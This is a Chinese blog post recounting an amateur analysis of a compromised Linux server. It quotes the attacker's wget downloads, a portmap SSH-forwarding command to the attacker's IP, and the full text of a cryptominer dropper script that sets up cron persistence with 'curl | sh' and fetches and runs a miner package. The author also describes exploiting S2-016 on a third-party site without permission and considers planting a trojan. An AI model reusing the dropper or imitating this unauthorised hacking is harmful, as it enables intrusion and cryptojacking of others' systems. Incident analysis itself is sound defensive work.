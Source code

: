 ```yaml
---
layout:   post
title:  "某服务器被入侵,追踪入侵者"
subtitle: "记录一次入侵分析的经历"
date:  2017-07-05 23:28:02 +0800
author: Les1ie
catalog: true
tags:
 - 网络安全
 - 入侵分析
---
```

## 0x01 
一个linux运维的群里面，今天突然有人说服务器被黑了，找人帮忙分析，日志被清除了，只留下了几条执行过的命令，他给出了个几个截图，都是他执行过的命令
![](/img/s2-016/first-ask.png)


## 0x02 
看了下他的截图， 攻击者最初是如何进入系统的已经无法知道了，说让他给我他公司服务器地址让我测试也没后文，所以对方如何进入服务器我也不得而知，他说服务器是tomcat的，觉得可能有apache的几个漏洞进去的，或者是账户被爆破，密钥泄露之类的

后来他给出了几个截屏，里面看到他在一个网站下载了一个工具包，目测是肉鸡，然后在里面拿出了扫描器, 然后扫了一波内网。
攻击者最初
```
$ wget http://98.142.135.215:8088/scan.tar.gz
```
攻击者下载了扫描的工具包，扫了一波内网，然后似乎是发现这个东西扫不动，编译了pscan2继续来，执行了
```
$ ./x 192.168
```
扫了整个内网
接着 
```
$ wget http://98.142.135.215:8088/portmap
```
![](/img/s2-016/subnet1.png)
这个时候是拿到了边缘主机的权限，下载工具准备搭建代理，准备内网继续攻击。
```
$ ./portmap -m 3 -h1 127.0.0.1 -p1 22 -h2 98.142.135.215 -p2 6666
```
嗯，这个人其实最开始没有加`./portmap`, 也没有 `chmod +x portmap`, 直接执行了`portmap xxxxx` 哈哈哈哈

![](/img/s2-016/portmap.jpg)
现在代理搭建好了，22转发到了攻击者机器去了


后来他说在几台内网弱口令机器里面发现了攻击者下载的文件。我去肉鸡上把他下载下来了，上传到这里了，感兴趣的可以拿去分析一下。

[lssh.jpg](/img/s2-016/lssh.jpg)以及[xmr.tar.gz](/img/s2-016/xmr.tar.gz)

攻击者扫的内网看起来收获不小...拿到了好多台服务器，内网真是个危险的地方

后来他说他没意识到攻击者此时正在他的电脑上，然后攻击者在发现他结束了恶意进程之后便删去日志走了



## 0x03
其实写博客的时候才发现他给的截图里面很多信息我都没注意到

我看了下下载`lssh.jpg`和`xmr.tar.gz`的网站，注意到了网址是`xxx.xx.com/index.action`觉得很有可能是s2-045打进去的，网上找了很多exp都不行，打不进去，后来找同学要了另外的exp, 发现另外的漏洞， s2-016, cve编号cve-2013-2251，还是一个远程执行的漏洞，拿着这个直接打进去了，找了下网站的根目录，发现了前人的脚步，很多的传上来的文件还有jsp的一句话,这时候不想继续干下去了，因为怕事。。。另一个原因是...编程之美要提交项目了我还没干完...

另外发现网站的首页被挂了黑链
![](/img/s2-016/link.png)
..然后想了想，决定给管理员发邮件，网站被前人干成这样了都..

晚上突然想着不如扔给补天吧，这样我不用自己出面找管理员补洞了。

我自己在虚拟机里面下载了`xmr.tar.gz`, 看了下里面有这样的东西
![](/img/s2-016/xmr_file.png)

代码如下
```bash
cat lssh.jpg 
#!/bin/sh
export PATH=$PATH:/bin:/usr/bin:/usr/local/bin:/usr/sbin
plt=`cat /proc/cpuinfo|grep aes`
ps x|grep stratum|grep -v grep|awk '{print $1}'|xargs kill -9 > /dev/null 2>&1
if [ `whoami` = "root" ]; then
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/root
    mkdir -p /var/spool/cron/crontabs
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg  | sh" > /var/spool/cron/crontabs/root
curl -O http://www.x.com/picture/lssh.jpg  > /dev/null 2>&1; mv lssh.jpg /etc/cron.daily/anacron ; chmod +x /etc/cron.daily/anacron||wget -O /etc/cron.daily/anacron http://www..jpg > /dev/null 2>&1 ; chmod +x /etc/cron.daily/anacron
else
    echo "*/5 * * * * curl -fsSL http://www.x.com/picture/lssh.jpg | sh" |crontab -	
fi
DoYam()
{
	if [ ! -f "/var/tmp/xmr.tar.gz" ]; then
curl -fsSL  http://www.x.com/picture/xmr.tar.gz -o /var/tmp/xmr.tar.gz || wget  http://www.x.com/picture/xmr.tar.gz -O /var/tmp/xmr.tar.gz
    fi
	tar zxf /var/tmp/xmr.tar.gz -C /var/tmp/	
    chmod +x /var/tmp/xmr/*
	export LD_LIBRARY_PATH=/var/tmp/xmr
	cd /var/tmp/xmr
	if [ "$plt" != "" ]
     then 
     (exec ./httpd -c httpd.cnf &> /dev/null &)
     else
	 #no aes 
	 (exec ./apache -c httpd.cnf &> /dev/null &)
    echo no
    fi
}
#ps auxf|grep -v grep|grep "httpd.conf" || DoYam
ps x |grep httpd.cnf|grep -v grep || DoYam
```


发现我们 naive了..这个就是个挖矿的，检测是否支持aes是用来启动不同的挖矿程序，而不是...httpd和apache

他说内网的机器也被部署挖矿的了，新上线的主机也是弱口令..

有点想沿着挖矿的法国的控制机器再找一找，因为另一台肉鸡是国内的..说好了不打国内的网站...

其实有点想去那个肉鸡的xmr.tar.gz加一个我自己的木马进去，这样他的马儿跑起来了我就能找到这一次的入侵者了， 另外昨天没有去分析一下肉鸡的apache日志，看看那个人到底有多少打进去了的电脑..., 

2017年7月6日01:47:33

赶紧睡觉，明早有课，感觉药丸

## 0x04 
给了他一个exp, 然后..

2017年7月6日12:24:32
![](/img/s2-016/bugs.png)


嗯，就这样..

## 0x05 结尾
2017年9月9日10:33:33

最后的结果是...见网友，请我和婶婶吃了一顿串串


![](/img/s2-016/food.jpg)


有始有终哈哈哈哈哈


